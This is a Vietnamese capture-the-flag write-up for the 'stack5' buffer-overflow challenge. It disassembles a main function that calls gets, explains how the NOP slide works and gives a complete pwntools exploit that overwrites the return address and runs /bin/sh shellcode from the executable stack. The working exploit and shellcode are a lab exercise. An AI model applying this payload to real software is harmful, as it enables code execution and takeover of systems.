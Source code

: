 # stack5

## Description

Chạy thử chương trình, nhập input vào thì ko có gì diễn ra. Mình đá thử qua hàm main thì thấy nó khá là ngắn.

```ASM (intel syntax)
   0x080483c4 <+0>:     push   ebp
   0x080483c5 <+1>:     mov    ebp,esp
   0x080483c7 <+3>:     and    esp,0xfffffff0
   0x080483ca <+6>:     sub    esp,0x50
   0x080483cd <+9>:     lea    eax,[esp+0x10]
   0x080483d1 <+13>:    mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:    leave  
   0x080483da <+22>:    ret
```

mình đoán bài này sẽ phải chèn shellcode vào chương trình. Dùng vmmap check lại xem phần vùng mình ghi dữ liêu có quyền chạy code hay không.
![vmmap](vmmap.png)

ta thấy phân vùng stack có quyền x. Dùng shellcraft để tạo shellcode. Tiếp theo là tìm padding, dùng cyclic và pwndbg để tìm ra giống những bài trước. Padding 76 bytes. Bây giờ ta cần phải control eip. Khi chúng ta kiểm soát eip, chúng ta cần hướng nó đến ngăn xếp nơi chúng ta có thể đặt mã của riêng mình. Đỉnh của ngăn xếp được trỏ tới bởi SP (hoặc con trỏ ngăn xếp) được gọi là esp trong các máy 32-bit. Đối với mình, esp được đặt tại `0xffffceec`(ASLR off) và bạn có thể kiểm tra vị trí của esp trong gdb. Nếu ta muốn jump đến shellcode của mình, ta cần jump đến giữa ngăn xếp (thay vì trên cùng nơi SP trỏ đến), vì vậy ta thường thêm một phần bù vào vị trí esp trong phần mã khai thác . Tôi sử dụng mức bù là `20*16`. Có một lệnh trong hợp ngữ được là NOP, là 0x90 trong hệ thập lục phân, và NOP là bộ chứa khoảng trắng chuyển eip đến không gian tiếp theo trong bộ nhớ. Nếu chúng ta tạo một "bãi đáp" NOP khổng lồ và hướng eip về phía giữa ngăn xếp, tỷ lệ cược là eip sẽ hạ cánh trên NOP của chúng ta và các NOP sẽ chuyển eip xuống để cuối cùng đánh vào shellcode của chúng ta. Đây thường được gọi là NOP slide, bởi vì eip sẽ hạ cánh trong các NOP và trượt xuống shellcode. 




## Solution

```py
from pwn import *

elf = context.binary = ELF("stack5")

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


io = start()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffceec+21*16)

nop_slide = "\x90"*400

shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

io.sendline(payload)

io.interactive()
```



![run](run.png)



